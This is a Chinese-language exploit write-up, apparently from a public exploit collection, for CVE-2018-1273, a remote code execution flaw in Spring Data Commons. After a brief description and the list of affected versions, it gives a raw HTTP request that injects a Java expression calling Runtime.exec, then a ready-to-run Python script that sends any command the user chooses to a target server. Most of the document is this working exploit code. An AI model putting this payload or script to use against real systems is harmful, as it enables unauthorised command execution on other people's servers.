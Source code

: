 # （CVE-2018-1273）Spring Data Commons组件远程代码执行漏洞

### 一、漏洞简介

攻击者可以构造恶意的请求对Spring Data REST发起攻击，包括使用基于HTTP资源的，或者其他请求基于Spring Data’s projection负载结合的，最终导致远程代码执行攻击。

### 二、漏洞影响

Spring Data Commons 1.13 - 1.13.10(Ingalls SR10)

Spring Data REST 2.6 - 2.6.10 (Ingalls SR10)

Spring Data Commons 2.0 - 2.0.5 (Kay SR5)

Spring Data REST 3.0 - 3.0.5 (Kay SR5)

### 三、复现过程


```bash
POST /users?page=&size=5 HTTP/1.1
Host: localhost:8080
Connection: keep-alive
Content-Length: 124
Pragma: no-cache
Cache-Control: no-cache
Origin: http://localhost:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://localhost:8080/users?page=0&size=5
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=&password=&repeatedPassword=
```

执行docker-compose exec spring bash进入容器中，可见成功创建/tmp/success，说明命令执行成功：

![](images/2020_06_02/15912764555074.png)


### poc

cve-2018-1273_cmd.py


```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author:zhzyker
# from:https://github.com/zhzyker/exphub
# telegram:t.me/zhzyker

import requests
import sys

if len(sys.argv)!=3:
    print('+----------------------------------------------------------------------------+')
    print('+ DES: by zhzyker as https://github.com/zhzyker/exphub                       +')
    print('+      Spring Data Commons Remote Code Execution (No display)                +')
    print('+----------------------------------------------------------------------------+')
    print('+ USE: python3 cve-2018-1273_cmd.py <url> "<cmd>"                            +')
    print('+ EXP: python3 cve-2018-1273_cmd.py http://1.1.1.1:8080 "touch /tmp/exphub"  +')
    print('+ VER: Spring Data Commons 1.13 to 1.13.10                                   +')
    print('+      Spring Data Commons 2.0 to 2.0.5                                      +')
    print('+----------------------------------------------------------------------------+')
    sys.exit()
    
url = sys.argv[1]
cmd = sys.argv[2]
vuln = url + "/users"  

headers = {
    'Host': "localhost:8080",
    'Connection': "keep-alive",
    'Content-Length': "120",
    'Pragma': "no-cache",
    'Cache-Control': "no-cache",
    'Origin': "http://localhost:8080",
    'Upgrade-Insecure-Requests': "1",
    'Content-Type': "application/x-www-form-urlencoded",
    'User-Agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36",
    'Accept': "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8",
    'Referer': "http://localhost:8080/users?page=0&size=5",
    'Accept-Encoding': "gzip, deflate, br",
    'Accept-Language': "zh-CN,zh;q=0.9,en;q=0.8"
    }
    
payload = "username[#this.getClass().forName('java.lang.Runtime').getRuntime().exec('%s')]=&password=&repeatedPassword=" % cmd

try:
    r = requests.post(vuln, data=payload, headers=headers)
    if r.status_code == 500:
        print ("[+] Code executed successfully")
    else:
        print ("[-] Target Not CVE-2018-1273 Vuln, Good Luck")
except:
    print ("[-] Target Not CVE-2018-1273 Vuln, Good Luck")

```